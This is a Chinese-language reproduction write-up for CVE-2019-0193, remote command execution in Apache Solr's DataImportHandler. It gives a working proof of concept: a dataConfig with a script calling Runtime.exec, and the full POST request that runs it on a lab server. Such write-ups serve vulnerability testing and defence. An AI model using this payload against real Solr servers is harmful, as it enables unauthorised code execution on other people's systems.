

# （CVE-2019-0193）Apache Solr 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Apache/6.html](http://book.iwonder.run/0day/Apache/6.html)

## 一、漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在 Apache Solr 的 DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的 DIH 配置都可以通过外部请求的 dataConfig 参数来设置。由于 DIH 配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 二、漏洞影响

## 三、复现过程



如上图所示，首先打开刚刚创建好的 test 核心，选择 Dataimport 功能并选择 debug 模式，填入以下 POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig> 
```

点击 Execute with this Confuguration 会发送以下请求包：

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport 
```

执行 docker-compose exec solr ls /tmp，可见/tmp/success 已成功创建：


